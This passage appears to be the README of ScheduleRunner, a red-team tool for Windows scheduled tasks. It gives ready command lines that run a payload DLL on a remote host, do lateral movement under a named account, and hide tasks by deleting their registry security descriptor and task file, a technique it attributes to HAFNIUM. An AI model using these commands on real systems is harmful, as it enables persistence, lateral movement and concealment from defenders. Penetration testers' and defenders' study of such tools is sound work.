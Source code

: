 [*] are mandatory fields.

## Example
**Create a scheduled task called "Cleanup" that will be executed every day at 11:30 p.m.**

`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010`

**Create a scheduled task called "Cleanup" that will be executed every 4 hours on a remote server**

`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:hourly /modifier:4 /program:rundll32.exe /argument:c:\temp\payload.dll /remoteserver:TARGET-PC01`

**Delete a scheduled task called "Cleanup"**

`ScheduleRunner.exe /method:delete /taskname:Cleanup`

**Execute a scheduled task called "Cleanup"**

`ScheduleRunner.exe /method:run /taskname:Cleanup`

**Query details for a scheduled task called "Cleanup" under "\Microsoft\Windows\CertificateServicesClient" folder on a remote server**

`ScheduleRunner.exe /method:query /taskname:Cleanup /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`

**Query all scheduled tasks under a specific folder "\Microsoft\Windows\CertificateServicesClient" on a remote server**

`ScheduleRunner.exe /method:query /folder:\Microsoft\Windows\CertificateServicesClient /remoteserver:TARGET-PC01`

**Query all sub-folders in scheduled task**

`ScheduleRunner.exe /method:queryfolders`

**Perform lateral movement using scheduled task to a remote server using a specific user account**

`ScheduleRunner.exe /method:move /taskname:Demo /remoteserver:TARGET-PC01 /program:rundll32.exe /argument:c:\temp\payload.dll /user:netero1010`

**Create a scheduled task called "Cleanup" using hiding scheduled task technique:**

`ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010 /technique:hide`

**Delete a scheduled task called "Cleanup" that used hiding scheduled task technique:**

`ScheduleRunner.exe /method:delete /taskname:Cleanup /technique:hide`

## Hiding Scheduled Task Technique
This technique was used by threat actor - HAFNIUM and discovered by Microsoft recently. It aims to make the scheduled task unqueriable by tools and unseeable by Task Scheduler.

To use this technique, you are required to have "NT AUTHORITY/SYSTEM" and ScheduleRunner will do the following for you:
1. Delete "SD" value from "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\\[task name]"
2. Delete scheduled task XML file "C:\Windows\System32\Tasks\\[task name]"

